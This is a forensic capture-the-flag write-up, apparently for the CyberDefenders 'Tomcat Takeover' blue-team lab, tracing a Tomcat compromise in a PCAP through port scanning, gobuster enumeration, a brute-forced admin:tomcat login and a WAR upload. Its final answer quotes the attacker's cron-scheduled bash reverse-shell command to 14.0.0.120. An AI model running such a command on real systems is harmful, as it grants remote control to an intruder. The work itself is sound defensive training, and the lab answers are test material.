#wireshark #network-miner #cyberdefender-easy #finished #reviewed 
# Scenario
The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.
# Questions
## Q1 — Source IP of attacker
>Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

First thing I always check is the statistics conversation to see if we can get any quick wins.



We can see here there are many packets between `14.0.0.120` and `10.0.0.112`.
We can reasonably guess that one of these is the server and the other is the attacker.
We know the attacker performed a port scan, let's try looking for the traffic corresponding to that.
The most common type of scan that `nmap` defaults to is a `SYN scan`.
Therefore, we can look for packets characteristic of this traffic.
We set the following filter,

`(ip.src == 14.0.0.120 || ip.src = 10.0.0.112) && tcp.flags.syn == 1`

Then check the output



*output of filter*

We can already see some interesting traffic as `14.0.0.120` is sending packets with the `SYN` flag set to many different ports with each requests having little to no delay in between. This is characteristic of port scanning.

**Answer:** `14.0.0.120`

---
## Q2 — Geolocation of Attacker
>Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?

This is trivially solved with a `whois` look up.



Which tell us that the attacker is from `China`.

**Answer:**`china`

---
## Q3 — Port to admin panel
>From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?

We can determine which ports are open by doing the following filter,

`ip.src = 10.0.0.112 && ip.dst == 14.0.0.120 && tcp.flags.syn == 1 && tcp.flags.ack == 1` 



*output of filter*

Then going to `Statistics -> Endpoints -> TCP`



*statistics of filter*

We can see the open ports are `22`,`8009` and `8080`.
The interesting one here is `8080` as that is a http port.
If we filter for `http` we can will see when the attacker managed to find the path to the admin panel.



*http traffic showing directory enumeration*

We can also see from the output that the attacker is using an automated tool to enumerate the directories.

**Answer:** `8080`

---
## Q4 — Directory Enumeration Tool
>Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

If we click into any of the packets from the attacker in the previous question we will see the user agent is set to `gobuster 3.6`. `gobuster` is a well known tool used for directory enumeration.



*User agent set*

**Answer:** `gobuster`

---
## Q5 — Admin panel directory
>After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?

We have already identified this from the previous questions.
If we inspect the output carefully, we will see that while some directories under `/manager` do not exist, there are a number of them that instead return `401 Unauthorized`.
Furthermore, most of the paths under `/manager` are admin related.
For instance `/manager/serverinfo` imply the directory is for admins.

**Answer:** `/manager`

---
## Q6 — Credentials
>After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?

To find this we just need to filter for the following,

`http && frame contains "/manager" && !(frame contains "gobuster")`

The rationale behind this is that we are looking for http traffic targeting the `/manager` directly that is not from `gobuster`. We should then see the packet where the attacker managed to brute force a login.



*Output of filter*

If we look near the bottom, we will see that the attacker managed to navigate through `/manager` and the server stopped responding with `401 Unauthorized`.

If we click into the first packet at `No. 20553` we will see the credentials in plaintext.



*Credentials in plaintext*

**Answer:** `admin:tomcat`

---
## Q7 — Malicious File
>Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

To find this we just need to filter for `http && http.request.method == POST`.
Which will show us the following,



*POST request filtered*

If we look under the `multipart/form-data` we will see the filename is `JXQOZY.war`.

**Answer:**`JXQOZY.war`

---
## Q8 — Persistence Mechanism
>After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

Given that the attacker has established a reverse shell it is likely that the traffic will show as raw tcp traffic. Therefore, we will see tcp traffic with flags like `psh` set.

We can filter for that to get us started and see if we find anything interesting.
We set the following filter, `tcp.flags.push == 1 && ip.src == 14.0.0.120 && !http`.



*Filtered packets*

If we inspect the packets we can see that it contains the commands that the attacker was sending. If we click on frame no. `20666` we will see in the exact command that was scheduled by the attacker to establish persistence.



*Attacker establishing persistence*

The attacker here is setting a reverse shell to run every minute on the machine.

**Answer:** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

---
# Completion



I successfully completed Tomcat Takeover Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/francisvil3213/tomcat-takeover/
 
#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender